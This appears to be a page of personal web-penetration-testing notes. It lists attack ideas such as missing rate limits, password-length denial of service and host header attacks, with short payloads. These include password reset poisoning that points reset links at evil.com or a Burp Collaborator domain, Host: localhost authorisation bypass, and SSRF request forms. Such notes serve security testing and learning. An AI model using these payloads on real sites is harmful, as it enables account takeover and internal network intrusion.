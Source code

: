 




1  >>>>   No Rate Limiting  & Delete account without confirmation 


2  >>>>   Long Paaword Dos Attack   and Account lockout application dos


3  >>>>   Host header attack

        - Password reset poisoning from change the host to evil.com 


                - Password reset poisoning by X-Forwarde-Host to evil.com

                - Password reset poisoning through danglink markup and string port in host header '<a href="//xjk3h4uo18lryvi7yv3jaiwuoluji8.burpcollaborator.net/?


         >> Host header auth bypasss
                 
                 Some times website restrict their functionality to internal user only. . You can bypass this by making simple modification in 
                 Host header.
                 
                 Host: localhost
                 Host: 127.0.0.1
                 
                 
                 >> Routing based SSRF
                 
                 Put your burp coalborator domain in host header if request in burp then may be routing based SSRF
                 
                 You can brute force public ip( like 192.168.0.X) by intruder in burp pro
                 
                 
                >> SSRF ny flawd request parsing

        If you use host with your burp colob url then site is block your url But if you use absolute url then 
        bypass the parsing rule 

        GET https://your-lab-id.web-security-academy.net/
        Host: your-collaborator-id.burpcollaborator.net


                >> SSRF via malformed request line 

                 GET @private-intranet/example HTTP/1.1
                 

                 

        - If you access the webiste after change the host header then may be host header injection 

                - If error "Invalid host header" then may be CDN is there

                - Instead of receiving an "Invalid Host header" response, you might find that your request is blocked as a result
                  of some kind of security measure. For example, some websites will validate whether the Host header matches the
                  SNI from the TLS handshake. This doesn't necessarily mean that they're immune to Host header attacks.
                  